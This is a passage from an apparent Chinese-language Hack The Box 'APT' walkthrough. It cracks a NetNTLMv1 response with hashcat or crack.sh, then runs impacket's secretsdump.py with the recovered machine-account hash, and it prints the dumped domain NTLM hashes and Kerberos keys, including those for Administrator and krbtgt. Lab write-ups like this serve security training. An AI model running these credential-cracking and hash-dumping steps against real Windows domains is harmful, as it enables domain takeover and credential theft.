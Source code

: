 ```shell

To crack with hashcat create a file with the following contents:
95ACA8C7248774CB:1122334455667788
427E1AE5B8D5CE68:1122334455667788

echo "95ACA8C7248774CB:1122334455667788">>14000.hash
echo "427E1AE5B8D5CE68:1122334455667788">>14000.hash

To crack with hashcat:
./hashcat -m 14000 -a 3 -1 charsets/DES_full.charset --hex-charset 14000.hash ?1?1?1?1?1?1?1?1

To Crack with crack.sh use the following token
NTHASH:95ACA8C7248774CB427E1AE5B8D5CE6830A49B5BB858D384
```

可以通过直接访问 crack.sh 获取破解之后的密钥，也可以自己本地使用 hashcat 破解，需要一些算力

`Crack.sh has successfully completed its attack against your NETNTLM handshake. The NT hash for the handshake is included below, and can be plugged back into the 'chapcrack' tool to decrypt a packet capture, or to authenticate to the server:  Token: $NETNTLM$1122334455667788$95ACA8C7248774CB427E1AE5B8D5CE6830A49B5BB858D384 Key: d167c3238864b12f5f82feae86a7f798  This run took 32 seconds. Thank you for using crack.sh, this concludes your job.`

# secretsdump.py

![](https://i.328888.xyz/2023/04/02/iHzkUX.png)

```shell
/tools/ntlmv1-multi
> python3 /tools/impacket/examples/secretsdump.py -hashes 'aad3b435b51404eeaad3b435b51404ee:d167c3238864b12f5f82feae86a7f798' 'htb.local/APT$@ht
b.local'
Impacket v0.10.1.dev1+20230330.124621.5026d261 - Copyright 2022 Fortra

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:c370bddf384a691d811ff3495e8a72e2:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:738f00ed06dc528fd7ebb7a010e50849:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
henry.vinson:1105:aad3b435b51404eeaad3b435b51404ee:e53d87d42adaa3ca32bdb34a876cbffb:::
henry.vinson_adm:1106:aad3b435b51404eeaad3b435b51404ee:4cd0db9103ee1cf87834760a34856fef:::
APT$:1001:aad3b435b51404eeaad3b435b51404ee:d167c3238864b12f5f82feae86a7f798:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:72f9fc8f3cd23768be8d37876d459ef09ab591a729924898e5d9b3c14db057e3
Administrator:aes128-cts-hmac-sha1-96:a3b0c1332eee9a89a2aada1bf8fd9413
Administrator:des-cbc-md5:0816d9d052239b8a
krbtgt:aes256-cts-hmac-sha1-96:b63635342a6d3dce76fcbca203f92da46be6cdd99c67eb233d0aaaaaa40914bb
krbtgt:aes128-cts-hmac-sha1-96:7735d98abc187848119416e08936799b
krbtgt:des-cbc-md5:f8c26238c2d976bf
henry.vinson:aes256-cts-hmac-sha1-96:63b23a7fd3df2f0add1e62ef85ea4c6c8dc79bb8d6a430ab3a1ef6994d1a99e2
henry.vinson:aes128-cts-hmac-sha1-96:0a55e9f5b1f7f28aef9b7792124af9af
henry.vinson:des-cbc-md5:73b6f71cae264fad
henry.vinson_adm:aes256-cts-hmac-sha1-96:f2299c6484e5af8e8c81777eaece865d54a499a2446ba2792c1089407425c3f4
henry.vinson_adm:aes128-cts-hmac-sha1-96:3d70c66c8a8635bdf70edf2f6062165b
henry.vinson_adm:des-cbc-md5:5df8682c8c07a179
APT$:aes256-cts-hmac-sha1-96:4c318c89595e1e3f2c608f3df56a091ecedc220be7b263f7269c412325930454
APT$:aes128-cts-hmac-sha1-96:bf1c1795c63ab278384f2ee1169872d9
APT$:des-cbc-md5:76c45245f104a4bf
```